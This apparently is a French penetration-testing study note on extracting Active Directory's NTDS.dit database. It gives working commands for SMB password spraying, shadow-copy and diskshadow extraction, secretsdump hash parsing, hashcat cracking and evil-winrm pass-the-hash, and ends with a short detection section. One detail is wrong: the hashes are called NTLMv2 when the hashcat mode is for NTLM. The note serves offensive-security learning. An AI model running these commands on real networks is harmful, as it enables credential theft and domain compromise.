

Voici le flux d'attaque pour l'extraction et l'exploitation de la base **NTDS.dit**.



## Authentification Active Directory

L'authentification dans un environnement **Active Directory** repose sur le contrôleur de domaine pour les comptes du domaine. Les comptes locaux continuent d'utiliser la base **SAM** locale, accessible via `hostname\username` ou `./username`.

## Génération de noms d'utilisateur

La création de listes d'utilisateurs repose sur les conventions de nommage standard.

### Création manuelle
```bash
echo "jdoe" >> usernames.txt
echo "jane.doe" >> usernames.txt
```

### Automatisation avec username-anarchy
```bash
git clone https://github.com/urbanadventurer/username-anarchy
cd username-anarchy
./username-anarchy -i noms.txt
```

## Attaques Dictionary avec netexec

L'outil **netexec** (successeur de **crackmapexec**) permet de tester des mots de passe sur le protocole SMB.

```bash
netexec smb <IP> -u <userlist.txt> -p <passwordlist.txt>
```

Exemple d'exécution :
```bash
netexec smb 10.129.202.85 -u usernames.txt -p /usr/share/wordlists/rockyou.txt
```

## Extraction de NTDS.dit

> [!danger] Prérequis
> L'extraction de **NTDS.dit** nécessite des privilèges **Domain Admin** ou équivalents (notamment **SeBackupPrivilege**).

> [!warning] Danger
> L'utilisation de **vssadmin** est bruyante et peut déclencher des alertes **EDR** ou **SIEM**.

> [!critical] Critique
> Le fichier **NTDS.dit** est inutile sans le fichier **SYSTEM** (hive) pour extraire les clés de chiffrement nécessaires au déchiffrement des données.

### Création d'une copie VSS
```powershell
vssadmin create shadow /for=C:
```

### Copie du fichier NTDS.dit
```powershell
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<ID>\Windows\NTDS\NTDS.dit C:\NTDS\NTDS.dit
```

### Extraction du SYSTEM hive (nécessaire pour décrypter NTDS.dit)
Le fichier **NTDS.dit** est chiffré avec la clé **BootKey** stockée dans la ruche **SYSTEM**. Sans cette ruche, le parsing est impossible.
```powershell
reg save HKLM\SYSTEM C:\NTDS\SYSTEM
```

### Méthodes alternatives d'extraction (DiskShadow, ESENTUTL)
Si **vssadmin** est bloqué, **DiskShadow** permet une approche scriptable plus discrète.
```powershell
# Script diskshadow.txt
set context persistent nowriters
add volume c: alias shadow
create
expose %shadow% z:
exec "cmd.exe /c copy z:\windows\ntds\ntds.dit c:\ntds\ntds.dit"
delete shadows all
reset
```
Exécution : `diskshadow.exe /s diskshadow.txt`

### Utilisation de secretsdump.py (Impacket) pour le parsing de NTDS.dit
Une fois les fichiers exfiltrés localement, utilisez la suite **Impacket** (voir notes liées : **Impacket Suite**) pour extraire les hashs.
```bash
python3 secretsdump.py -ntds NTDS.dit -system SYSTEM LOCAL
```
Cette commande génère trois types de hashs :
- **LM Hash** (souvent vide)
- **NTLM Hash** (utilisable pour **Pass-the-Hash**)
- **Kerberos Keys** (AES256/AES128)

## Cracking de hashs

Une fois les hashs **NTLMv2** récupérés, le cracking s'effectue via **hashcat**.

```bash
hashcat -m 1000 <hash> <wordlist>
```

Exemple :
```bash
hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

## Pass-the-Hash

Le **Pass-the-Hash** permet de s'authentifier sans connaître le mot de passe en clair.

```bash
evil-winrm -i <IP> -u <username> -H <hash>
```

Exemple :
```bash
evil-winrm -i 10.129.202.85 -u Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

## Énumération des droits

L'énumération des privilèges permet de confirmer le niveau d'accès sur la cible.

### Groupes locaux
```powershell
net localgroup
```

### Informations utilisateur
```powershell
net user <username>
```

## Défense et détection

La détection repose sur l'analyse des logs d'événements Windows et le comportement des processus :
- **Event ID 7036** : Arrêt/Démarrage du service VSS.
- **Event ID 4663** : Accès aux objets sensibles (NTDS.dit).
- **Surveillance EDR** : Détection de l'exécution de `vssadmin.exe` ou `diskshadow.exe` par des comptes non-système.
- **Logs de registre** : Surveillance des appels `RegSaveKey` sur la ruche `HKLM\SYSTEM`.